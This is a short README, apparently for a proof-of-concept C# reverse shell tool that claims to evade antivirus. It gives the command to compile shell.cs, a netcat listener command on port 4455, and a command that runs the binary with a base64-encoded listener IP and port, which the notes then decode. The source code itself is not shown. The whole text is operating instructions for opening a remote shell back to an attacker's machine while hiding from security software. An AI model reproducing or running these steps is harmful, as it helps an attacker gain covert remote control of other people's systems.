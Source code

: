 # C# Reverse Shell AV Evasion POC

## Compile

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe shell.cs


## Start the Listener

nc -nvlp 4455


## Execute the Binary

shell.exe MTkyLjE2OC41LjU= NDQ1NQ==


## Notes

- **Base64 encoded listener IP**: `MTkyLjE2OC41LjU=` → `192.168.5.5`
- **Base64 encoded listening port**: `NDQ1NQ==` → `4455`
